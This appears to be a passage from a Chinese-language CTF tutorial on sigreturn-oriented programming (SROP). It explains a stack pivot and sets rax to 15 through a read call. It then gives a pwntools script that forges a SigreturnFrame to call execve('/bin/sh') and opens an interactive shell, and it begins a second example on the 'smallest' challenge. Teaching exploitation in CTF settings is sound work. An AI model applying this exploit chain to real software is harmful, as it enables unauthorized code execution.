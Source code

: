 因为第二次的leav把栈指针劫持到0x601174,而此时的RIP又指向了mian函数中的retn，所以把第二次输入替换成ROP链就可以继续进行操作。这里在0x601174接rt_sigreturn，后面接SigreturnFrame，就可以完成SROP，syscall需要设置rax=0xf才能获取shell，对于i386/amd64的返回值一般保存在eax/rax中，而read函数返回值是其成功读取的字符数，所以可以再次调用read函数，输入十五个字符，设置rax为0xf，然后指向到retn调用syscall，触发rt_sigreturn

```python
    context.arch = 'amd64'
    frame = SigreturnFrame()
    frame.rax = constants.SYS_execve
    frame.rdi = binsh   # sys_execve第一个参数
    frame.rsi = 0   # sys_execve第二个参数
    frame.rdx = 0   # sys_execve(第三个参数)
    frame.rip = syscall_addr    # 执行sys_execve("/bin/sh\x00",0,0)

    payload = 'A'*0x10
    payload += p64(fake_stack_addr+0x10)    # 此处对应的栈地址为0x60116c,内容设置为0x60117c,为第三次read后的leave指令做准备，第二次read后，leave执行会将此处对应的值放到rbp中(push rbp)
    payload += p64(read_addr)   # 此处对应栈地址0x601174(0x6c+0x8),即rip的指向，通过retn劫持rip到read_addr(rsi, rdi, rdx不变，调用read，利用之后的输入设置rax = 15)
    payload += p64(fake_rbp_addr)   # 此处对应地址为0x60117c(0x74+0x8),即fake_stack_addr+0x10,leave执行之后rsp变为fake_stack_addr+0x10+8=0x601184，rbp变为0x60116c
    payload += p64(syscall_addr) # 此处对应栈的地址为0x601184,第三次read后的retn执行之后，劫持rip执行syscall(此前已经通过第三次输入将rax置为15(0xf))触发rt_sigreturn,此时0x801184为栈顶
    payload += str(frame)   # SigreturnFrame

    p.send(payload)
    sleep(3)
    b = '/bin/sh\x00'.ljust(15,'a') # 因为还是使用的第二次调用read的状态（rsi, rdi, rdx不变），所以这里同样是读到0x60115c,开头需设置为'/bin/sh\x00'
    p.send(b)
    sleep(1)
    p.interactive()
```

![Alt](img/SROP12.png)

### SROP实例2

例，`~/360ichunqiu 2017-smallest/smallest`
程序很简单，只有几句简单的汇编指令
